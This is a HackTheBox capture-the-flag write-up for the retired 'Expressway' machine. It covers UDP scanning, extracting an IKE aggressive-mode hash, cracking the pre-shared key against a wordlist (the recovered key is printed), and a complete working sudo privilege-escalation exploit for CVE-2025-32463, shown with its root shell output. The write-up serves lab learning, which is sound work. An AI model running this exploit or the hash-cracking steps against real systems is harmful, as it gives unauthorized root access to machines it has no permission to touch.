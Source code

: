 ```yaml
---
title: PENETRATION TESTING REPORT - EXPRESSWAY MACHINE
description: This write-up for the retired machine Expressway was completed while the machine was still active on the HackTheBox platform. Publication was held until after its official retirement to comply with platform guidelines.
author: ZoldyckSec
date: 2025-09-28 00:00:00 +0800
categories: [HackTheBox, Expressway]
tags: [CTF, UDP, IKE, Easy, PSK, CVE-2025-32463]
render_with_liquid: false
image:
  path: /assets/img/Expressway/Card-Express.png
---
```


## Description:

- `Date` Sep 27, 2025
- `Machine` Expressway (Linux)
- `Difficulty` Easy
- `Prepared by` Allan Espinoza(Aka.ZoldyckSec)

## 1.Reconnaissance Phase

After identifying only port 22/TCP (SSH) without valid credentials, I expanded reconnaissance to UDP services, which often host less secure configurations or sensitive information. Since the initial TCP scan only revealed the SSH service with no means of access, I proceeded to perform a UDP scan to identify additional services operating in connectionless protocols.

#### 1.1 🔍 UDP Enumeration 

```bash
nmap -sU --top-ports 100 -T4 -v -n --reason -oN UDP 10.10.11.87
```
- `-sU` **UDP Scan**. Sends UDP probes to ports and waits for either a response or an ICMP "port unreachable" message. UDP lacks a handshake, which is why it's typically slower and less accurate than TCP.

- `--top-ports` Scans **the top 100 most common UDP ports** according to the Nmap database (instead of 1-65535). Good for quick reconnaissance, but may miss services on non-standard ports.

- `-T4` **Timing Template**: Aggressive/Fast. Reduces timeouts and waits less for responses → faster scan but higher risk of **false negatives** and more network noise (detectable by IDS/IPS). Often reasonable for UDP, but if a firewall delays responses, prefer `-T3` or `-T4` with retries.

- `-v` **Verbosity**: More detailed console output. Shows progress and useful information. (You can use `-vv`/`-vvv` for more detail, but `-v` is usually sufficient.)

- `-n` **No DNS resolution**. Nmap will not attempt to resolve IP → hostname (faster, less DNS traffic).

- `--reason` Shows **why** Nmap classified a port (e.g., "ICMP port unreachable" → closed; "no response" → open|filtered). Very useful for interpreting UDP results.

## 3. DETAILED FINDINGS

#### 3.1 Critical Finding 001: IKE/ISAKMP Service in Aggressive Mode

The IKE/ISAKMP service on UDP port 500 is configured in aggressive mode, allowing hash extraction for offline brute-force attacks.

#### Evidence

```bash
ike-scan -A 10.10.11.87 -P
````

```markdown
IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
954d1bf7f7949d6216d26034fdededd2dfa91a603a4f2dba9e0a85e1fdce764ba7a868fc85a258472e6c91c905d21b180ca24a93886f0141712fe45862f2d8f54134741c0d2834355421f1d6b845fc58dbee643c0f6c6830a1f095b61c1fcc78e4db59e552db8e763d60f4fe624e24b35f770db5d5120af859985727395e1392:53bec0cd48ec92f2fe60df3751c080f8b6b92b45336312cd6d3c133bf2a5e93d10a30e9c444bd22249e8411d0ce7c3b6d22dbdbb2b0778fd68728aad84adb6dc2ab591fa105ccdcfd512637b76b9a052e0ed24565ce7bc3ba2c368a8b499a2ef4fd8212940256a1bce47db3a621bf582c592eaeb7a37ba519c6666b5a43c29d1:f77714c7d8fd7ed4:305b0ddf6f47d41c:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:679e4a6ac6afed51e8ec22d9f598937227a553ee:692fe7379ce6731b5a5659a3fd0a8ca8d50f05b88f936b5933fd7f8733df1bfd:ffe04d53c6ea615b98594efb211e3caed831a9e2
```

#### 3.2 High Finding 002: Weak Pre-Shared Key

An IKE hash was extracted from the aggressive mode service and successfully cracked via dictionary attack, revealing a weak PSK.

#### Evidence

```bash
psk-crack -d /usr/share/wordlists/rockyou.txt hash
```

```markdown
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash 54d97619cb37951c5be413903e6d6d2a78be31a7
```
#### 3.3 Critical Finding 003

Vulnerability CVE-2025-32463 was identified and exploited in the sudo configuration, which allowed full escalation of privileges without requiring prior enumeration of sudo permissions.

#### Evidence 

- `kh4sh3i/CVE-2025-32463`

```bash
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
````

```markdown
ike@expressway:~$ ./exploit.sh 
woot!
root@expressway:/# id
uid=0(root) gid=0(root) groups=0(root),13(proxy),1001(ike)
root@expressway:/# whoami
root
```







  
